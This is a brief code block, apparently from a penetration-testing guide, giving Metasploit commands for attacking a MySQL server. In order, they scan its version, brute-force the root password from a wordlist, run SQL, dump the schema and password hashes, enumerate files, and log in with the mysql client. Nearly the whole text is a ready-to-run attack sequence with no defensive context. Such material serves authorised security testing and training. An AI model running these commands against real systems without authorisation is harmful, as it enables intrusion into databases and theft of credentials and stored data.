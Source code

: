\begin{termbox}
# Metasploit MySQL modules (run after finding port 3306 open)
use auxiliary/scanner/mysql/mysql_version
set RHOSTS target_ip
run

# Brute-force MySQL root password
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target_ip
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run

# Once logged in --- enumerate the database
use auxiliary/admin/mysql/mysql_sql
set PASSWORD found_password
set USERNAME root
run

# Dump schema
use auxiliary/scanner/mysql/mysql_schemadump
set PASSWORD found_password
set USERNAME root
run

# Dump password hashes
use auxiliary/scanner/mysql/mysql_hashdump
set PASSWORD found_password
set USERNAME root
run

# File enumeration
use auxiliary/scanner/mysql/mysql_file_enum
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run

# Manual login after finding credentials
mysql -h target_ip -u root -p
# Then inside mysql:
# show databases;
# use database_name;
# show tables;
# select * from table_name;
\end{termbox}

